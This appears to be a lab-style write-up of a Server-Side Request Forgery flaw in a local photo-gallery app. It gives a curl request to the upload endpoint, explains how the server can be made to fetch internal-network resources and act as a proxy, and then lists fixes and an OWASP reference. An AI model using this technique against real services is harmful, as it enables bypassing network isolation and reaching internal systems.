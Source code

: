 # Server-Side Request Forgery

Main page is <url>/gallery, where `<url>` is `localhost:8000` by default

## Exploit

upload photo

```bash
curl 'http://127.0.0.1:8000/api/photo_upload' -X POST \
-H 'Accept: image/avif,image/webp,*/*' \
-H 'Accept-Encoding: gzip, deflate, br' \
-H 'Referer: http://127.0.0.1:8000/api/photo_upload' \
-H 'DNT: 1' \
-H 'Connection: keep-alive' \
-H 'Sec-Fetch-Dest: image' \
-H 'Sec-Fetch-Mode: no-cors' \
-H 'Sec-Fetch-Site: same-origin' \
-H 'Sec-GPC: 1' \
-H 'Content-Type: application/json' \
-H 'Origin: http://127.0.0.1:8000' \
-H 'Pragma: no-cache' \
-H 'Cache-Control: no-cache' \
--data-raw '{"url":"https://foundation.rust-lang.org/img/cargo.png"}'
```

The server does not handle any MIME type or anything. You can ask it to request
something from the local network, and it will do that. Additionally, the
downloaded file will be available via the link below. Therefore, it could be
used to bypass intra-network isolation and serve as a proxy for limited GET
requests.

The file can now be accessed via similar link:
`http://127.0.0.1:8000/content/fb2f15c8-d92f-43c4-b752-773d82f39c56.jpg`

## Fixes

- Add validation for response MIME type
- Implement a strict policy to deny any access to the internal network, as the service does not require it
- Place the server behind a filtering proxy that drops all packages with suspicious requests. For instance, Nginx offers various configurations for this purpose
- Ensure the clarity of GET parameters, as they represent a significant attack surface

## References

- [Definition at owasp.org](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)
